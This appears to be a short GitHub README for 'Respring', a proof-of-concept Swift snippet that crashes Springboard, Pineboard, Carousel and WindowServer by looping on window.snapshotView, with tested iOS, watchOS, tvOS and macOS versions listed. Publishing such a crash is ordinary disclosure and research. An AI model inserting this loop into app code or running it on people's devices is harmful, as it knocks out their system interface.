 # Respring
## Proof of concept code to crash Springboard/Pineboard/Carousel/WindowServer

Tested on iOS 15.0, 14.3, 13.3,
          watchOS 7.5, 8.0
          tvOS 14.3
          macOS 11.1, 12.0

To cause the crash run the following code
```swift
guard let window = UIApplication.shared.windows.first else { return }
while true {
   window.snapshotView(afterScreenUpdates: false)
}
```
